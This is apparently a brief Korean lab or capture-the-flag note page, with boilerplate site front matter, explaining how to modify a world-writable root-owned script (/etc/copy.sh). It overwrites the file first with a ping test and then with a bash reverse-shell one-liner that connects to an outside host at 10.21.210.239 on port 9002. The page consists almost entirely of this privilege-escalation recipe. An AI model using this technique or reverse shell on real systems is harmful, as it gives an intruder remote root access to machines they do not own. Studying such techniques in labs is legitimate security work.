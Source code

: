 ```yaml
---
layout: page
title: 기존_파일_수정,_간단_리버스쉘(bash)
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


```bash
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

이렇게 생겨먹은 root 권한의 파일 내용 수정하는 방법



```bash
echo 'ping -c 1 10.21.210.239' > /etc/copy.sh
```


```bash
echo "bash -c 'exec bash -i &> /dev/tcp/10.21.210.239/9002 <&1'" > /etc/copy.sh
```

